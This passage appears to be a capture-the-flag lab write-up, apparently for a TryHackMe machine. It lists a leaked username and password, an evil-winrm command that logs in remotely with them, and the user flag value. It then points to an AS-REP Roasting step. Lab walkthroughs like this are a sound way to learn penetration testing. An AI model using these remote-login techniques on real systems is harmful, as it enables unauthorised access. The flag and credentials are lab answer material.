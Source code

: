 You have a valid User with credentials.

User: AUTOMATE
Password: Passw0rd1

Connect to the machine using Evil-winrm .

`evil-winrm -i $VMIP -u AUTOMATE -p Passw0rd1`

$VMIP is your VPN IP.

![[Screenshot from 2024-08-11 19-19-56.png]]

## User flag


Go to C:\\Users\\automate\\Desktop>.

Evil-WinRM PS C:\Users\automate\Desktop> `cat user.txt`

THM{AUTOMATION_WILL_REPLACE_US}

**Next step:** [[AS-REP Roasting]]
